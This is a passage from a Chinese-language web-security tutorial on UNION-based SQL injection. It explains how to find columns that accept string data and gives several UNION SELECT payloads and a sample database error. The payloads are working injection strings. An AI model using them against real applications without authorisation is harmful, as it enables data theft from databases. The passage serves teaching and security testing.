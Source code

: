 例子：

![image-20250430235331727](./img/image-20250430235331727.png)

#### 查找具有有用数据类型的列

联合注入要检索的数据通常为字符串形式，这意味着需要在原始查询结果中找到**其数据类型为字符串数据或与字符串数据兼容的一列或多列**

确定所需列数后，测试每个列是否可以保存字符串数据。提交一系列 `UNION SELECT` 负载，这些负载依次将字符串值放入每列中。例如：

```
' UNION SELECT 'a',NULL,NULL,NULL--
' UNION SELECT NULL,'a',NULL,NULL--
' UNION SELECT NULL,NULL,'a',NULL--
' UNION SELECT NULL,NULL,NULL,'a'--
```

如果 column 数据类型与字符串数据不兼容，则注入的查询会导致数据库错误，例如：

```
Conversion failed when converting the varchar value 'a' to data type int.
```

例子：

```
'union select null,'SobYzW','3'--
```
